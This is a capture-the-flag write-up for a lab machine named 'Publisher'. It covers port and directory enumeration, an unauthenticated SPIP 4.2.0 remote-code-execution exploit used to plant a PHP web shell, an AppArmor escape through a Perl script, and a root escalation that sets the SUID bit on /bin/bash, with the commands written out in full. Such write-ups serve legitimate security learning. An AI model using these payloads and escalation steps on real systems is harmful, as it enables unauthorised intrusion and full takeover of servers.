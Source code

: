 # Publisher

## Test your enumeration skills on this boot-to-root machine.
```
Machine's IP: 10.10.211.245
``` 

**NMAP**

Firstly, once the machine is up we can begin with an active enumeration using nmap

```bash
# Nmap 7.95 scan initiated Thu Oct 16 15:43:25 2025 as: /usr/lib/nmap/nmap --privileged -A -oN nmap.txt -T4 -Pn -p- 10.10.211.245
Nmap scan report for 10.10.211.245
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d6:76:88:b3:4e:29:1d:11:a8:6f:aa:7e:a2:d4:45:49 (RSA)
|   256 76:57:53:30:69:1f:66:8b:e5:83:d5:d5:18:86:ca:1d (ECDSA)
|_  256 66:dd:40:be:ae:e7:36:1e:35:89:0d:33:4f:0a:0a:87 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Publisher's Pulse: SPIP Insights & Tips
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT      ADDRESS
1   42.89 ms 10.8.0.1
2   42.92 ms 10.10.211.245

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 16 15:44:07 2025 -- 1 IP address (1 host up) scanned in 42.33 seconds
```
We can notice 2 services:
- Openssh 8.2p1 which is too recent to be exploitable
- Apache 2.4.41 which is also too recent 

**GOBUSTER**

Let's fuzz the directories in the website
```bash
gobuster dir -u http://10.10.211.245/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t40
```
We have now found a directory "/spip"

Using wapalyzer we can get the spip version which is 4.2.0 so let's find if there's a CVE
```bash
searchsploit spip 4.2.0
```
The CVE is a metasploit RCE that allows us to execute commands on the server without being auth

With this exploit i created a file in the webserver that contain a php webpage to allow us execute commands easily with the following
```php
<?php system($_GET['cmd']); ?>
```
```bash
python exploit.py -u http://10.10.211.245/spip/ -c 'echo PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+ | base64 -d > cmd.php'
```
So we can read files easily such as the .ssh of the user Think to avoid a second privesc

**PRIVESC**

I firstly wanted to upload a Linpeas but i found that i wasnt even able to write in my directory or in /tmp... This means there is a service blocking some access sur as Apparmor:
```bash
echo $SHELL -> ash shell
cat /etc/apparmor.d/usr.sbin.ash -> doesnt block /var/tmp eg
```

With Linpeas or with 
```bash
find / -type f -perm -04000 -ls 2>/dev/null
``` 
we can find /usr/sbin/run_container has the SUID bit set 

Let's analyze what run_container does with strings
```bash
strings /sbin/run_container

...
/bin/bash
/opt/run_container.sh
...
``` 
So in theory if we edit **/opt/run_container.sh** we can run commands as root BUT apparmor is blocking /opt even if we have the rights to edit the .sh

**APPARMOR ESCAPE**

After doing some researches it appears it is possible to escape the apparmor restrictions with pearl using 
```bash
echo -e '#!/usr/bin/perl\nexec "/bin/sh"' > /dev/shm/test.pl
chmod +x ./test.pl 
./test.pl 
```
With that we now have an unrestricted shell where we can finaly execute our commands
```bash
./test.pl 
$ id
uid=1000(think) gid=1000(think) groups=1000(think)
$ echo '#!/bin/bash\nchmod +s /bin/bash' > /opt/run_container.sh
$ exit
/usr/sbin/run_container
ls -al /bin/bash
-rwsr-sr-x 1 root root 1183448 Apr 18  2022 /bin/bash
bash -p
bash-5.0# id
uid=1000(think) gid=1000(think) euid=0(root) egid=0(root) groups=0(root),1000(think)
```
As you can see our euid (effective uid) is now root :)

Redacted by Lucas Bouet